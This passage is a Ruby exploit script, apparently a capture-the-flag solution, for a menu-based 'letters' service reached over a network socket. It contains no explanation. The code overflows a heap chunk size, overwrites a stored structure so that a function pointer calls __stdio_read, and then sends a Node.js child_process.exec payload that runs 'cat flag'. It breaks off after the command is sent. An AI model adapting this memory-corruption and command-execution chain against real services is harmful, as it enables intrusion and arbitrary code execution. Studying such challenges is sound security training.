 ```ruby
  def recv_until_prompt
    recv_until("Select:\n")
  end
end

def tube
  @tube
end

def add_letter(size, content, to, filter)
  tube.recv_until_prompt
  tube.sendline("1")
  tube.recv_until("Size:\n")
  tube.sendline("#{size}")
  tube.recv_until("Content:\n")
  tube.send(content)
  tube.recv_until("To:\n")
  tube.send(to)
  tube.recv_until_prompt
  tube.sendline("#{filter}")
end

def delete_letter(index)
  tube.recv_until_prompt
  tube.sendline("3")
  tube.recv_until("Index:\n")
  tube.sendline("#{index}")
end

def seal_letter
  tube.recv_until_prompt
  tube.sendline("5")
end

PwnTube.open(host, port){|t|
  @tube = t

  cmd = "require('child_process').exec('cat flag',(a,b,c)=>console.log(b+c))\0"

  puts "[*] prepare"
  add_letter(0xc, "A" * 0xb, "1" * 0x1f + "\n", 1)
  add_letter(0xc, "B" * 0xb, "2" * 0x1f + "\n", 1)
  delete_letter(0);

  puts "[*] overwrite chunksize"
  add_letter(0xc, "C" * 0xb, "3" * 0x20 + "\x53", 1)

  puts "[*] overwrite existing letter"
  payload = ""
  payload << "A" * 0x10
  payload << [cmd.length].pack("L")  # length
  payload << [0xff8].pack("L")  # buf (address of "_do_post_letters()"")
  payload << [5].pack("L")  # func (__stdio_read)
  payload << "A" * 0x1f
  add_letter(payload.length + 1, payload, "AAAA\n", 1)

  puts "[*] call __stdio_read"
  tube.recv_until_prompt
  tube.sendline("5")

  puts "[*] send command to execute"
  tube.send(cmd)

```
